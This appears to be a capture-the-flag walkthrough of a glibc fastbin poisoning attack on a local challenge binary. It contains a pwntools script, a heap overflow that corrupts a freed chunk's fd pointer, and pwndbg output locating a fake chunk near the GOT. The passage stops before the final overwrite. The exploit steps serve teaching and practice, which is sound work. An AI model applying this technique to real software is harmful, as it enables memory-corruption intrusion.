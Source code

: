 ## 4.1.3 heap fastbins attack

Write basic framework
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.binary = './pwn'
elf = context.binary
libc = elf.libc
p = process('./pwn')

def show():
    p.sendlineafter(':', '1')

def add(length, name):
    p.sendlineafter(':', '2')
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def edit(idx, length, name):
    p.sendlineafter(':', '3')
    p.sendlineafter(':', str(idx))
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def delete(idx):
    p.sendlineafter(':', '4')
    p.sendlineafter(':', str(idx))

p.interactive()
```
add 2 chunks, free chuck2, edit chunk1(heap overflow) to change the fd
```python
add(0x50, '000000')
add(0x50, '111111')

delete(1)
pause()
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0xdeadbeef))
delete(2)
```
gdb break set to the read function in edit
``` gdb -q -p `pidof pwn` -ex "b *0x400C05" -ex "c"```
before edit, chunk2 is freed, to fastbin
```
pwndbg> heapbase
heapbase : 0x727000
pwndbg> x/40gx 0x727000
0x727000:	0x0000000000000000	0x0000000000000021
0x727010:	0x0000000000400896	0x00000000004008b1
0x727020:	0x0000000000000000	0x0000000000000061
0x727030:	0x0000303030303030	0x0000000000000000
0x727040:	0x0000000000000000	0x0000000000000000
0x727050:	0x0000000000000000	0x0000000000000000
0x727060:	0x0000000000000000	0x0000000000000000
0x727070:	0x0000000000000000	0x0000000000000000
0x727080:	0x0000000000000000	0x0000000000000061
0x727090:	0x0000000000000000	0x0000000000000000
0x7270a0:	0x0000000000000000	0x0000000000000000
0x7270b0:	0x0000000000000000	0x0000000000000000
0x7270c0:	0x0000000000000000	0x0000000000000000
0x7270d0:	0x0000000000000000	0x0000000000000000
0x7270e0:	0x0000000000000000	0x0000000000020f21
0x7270f0:	0x0000000000000000	0x0000000000000000
0x727100:	0x0000000000000000	0x0000000000000000
0x727110:	0x0000000000000000	0x0000000000000000
0x727120:	0x0000000000000000	0x0000000000000000
0x727130:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x727080 ◂— 0x0
0x70: 0x0
0x80: 0x0
pwndbg> p main_arena.fastbinsY
$1 = {0x0, 0x0, 0x0, 0x0, 0x727080, 0x0, 0x0, 0x0, 0x0, 0x0}
```
after edit, 0xdeadbeef is added to fastbin
```
pwndbg> ni
pwndbg> x/40gx 0x727000
0x727000:	0x0000000000000000	0x0000000000000021
0x727010:	0x0000000000400896	0x00000000004008b1
0x727020:	0x0000000000000000	0x0000000000000061
0x727030:	0x7878787878787878	0x7878787878787878
0x727040:	0x7878787878787878	0x7878787878787878
0x727050:	0x7878787878787878	0x7878787878787878
0x727060:	0x7878787878787878	0x7878787878787878
0x727070:	0x7878787878787878	0x7878787878787878
0x727080:	0x0000000000000000	0x0000000000000061
0x727090:	0x00000000deadbeef	0x0000000000000000
0x7270a0:	0x0000000000000000	0x0000000000000000
0x7270b0:	0x0000000000000000	0x0000000000000000
0x7270c0:	0x0000000000000000	0x0000000000000000
0x7270d0:	0x0000000000000000	0x0000000000000000
0x7270e0:	0x0000000000000000	0x0000000000020f21
0x7270f0:	0x0000000000000000	0x0000000000000000
0x727100:	0x0000000000000000	0x0000000000000000
0x727110:	0x0000000000000000	0x0000000000000000
0x727120:	0x0000000000000000	0x0000000000000000
0x727130:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x727080 ◂— 0xdeadbeef
0x70: 0x0
0x80: 0x0
pwndbg> p main_arena.fastbinsY
$2 = {0x0, 0x0, 0x0, 0x0, 0x727080, 0x0, 0x0, 0x0, 0x0, 0x0}
```
then malloc twice, 0xdeadbeef is returned, need to set 0xdeadbeef to a useful address.
got is changable
```
pwndbg> checksec
[*] '/root/ctf/1/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
check the got table
```
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 12
 
[0x602018] free@GLIBC_2.2.5 -> 0x7f2455ffd540 (free) ◂— push   r13
[0x602020] puts@GLIBC_2.2.5 -> 0x7f2455fe86a0 (puts) ◂— push   r12
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x4006f6 (__stack_chk_fail@plt+6) ◂— push   2
[0x602030] printf@GLIBC_2.2.5 -> 0x7f2455fce810 (printf) ◂— sub    rsp, 0xd8
[0x602038] close@GLIBC_2.2.5 -> 0x400716 (close@plt+6) ◂— push   4
[0x602040] read@GLIBC_2.2.5 -> 0x7f2456070310 (read) ◂— cmp    dword ptr [rip + 0x2d2429], 0
[0x602048] __libc_start_main@GLIBC_2.2.5 -> 0x7f2455f99750 (__libc_start_main) ◂— push   r14
[0x602050] malloc@GLIBC_2.2.5 -> 0x7f2455ffd180 (malloc) ◂— push   rbp
[0x602058] setvbuf@GLIBC_2.2.5 -> 0x7f2455fe8e80 (setvbuf) ◂— push   rbp
[0x602060] open@GLIBC_2.2.5 -> 0x400766 (open@plt+6) ◂— push   9 /* 'h\t' */
[0x602068] atoi@GLIBC_2.2.5 -> 0x7f2455fafe90 (atoi) ◂— sub    rsp, 8
[0x602070] exit@GLIBC_2.2.5 -> 0x400786 (exit@plt+6) ◂— push   0xb /* 'h\x0b' */
```
find valid size before got
```
pwndbg> x/40gx 0x602018-0x40
0x601fd8:	0x0000000000000000	0x0000000000000000
0x601fe8:	0x0000000000000000	0x0000000000000000
0x601ff8:	0x0000000000000000	0x0000000000601e28
0x602008:	0x00007f245656a168	0x00007f245635ae40
0x602018:	0x00007f2455ffd540	0x00007f2455fe86a0
0x602028:	0x00000000004006f6	0x00007f2455fce810
0x602038:	0x0000000000400716	0x00007f2456070310
0x602048:	0x00007f2455f99750	0x00007f2455ffd180
0x602058:	0x00007f2455fe8e80	0x0000000000400766
0x602068:	0x00007f2455fafe90	0x0000000000400786
0x602078:	0x0000000000000000	0x0000000000000000
0x602088:	0x0000000000000000	0x0000000000000000
0x602098:	0x0000000000000000	0x00007f245633e620
0x6020a8:	0x0000000000000000	0x00007f245633d8e0
0x6020b8 <completed.7594>:	0x0000000000000000	0x0000000000000050
0x6020c8 <itemlist+8>:	0x0000000000e14030	0x0000000000000000
0x6020d8 <itemlist+24>:	0x0000000000000000	0x0000000000000000
0x6020e8 <itemlist+40>:	0x0000000000000000	0x0000000000000000
0x6020f8 <itemlist+56>:	0x0000000000000000	0x0000000000000000
0x602108 <itemlist+72>:	0x0000000000000000	0x0000000000000000
```
0x0x601ffa is OK
```
pwndbg> x/4gx 0x601ffa
0x601ffa:	0x1e28000000000000	0xa168000000000060
0x60200a:	0xae4000007f245656	0xd54000007f245635
```
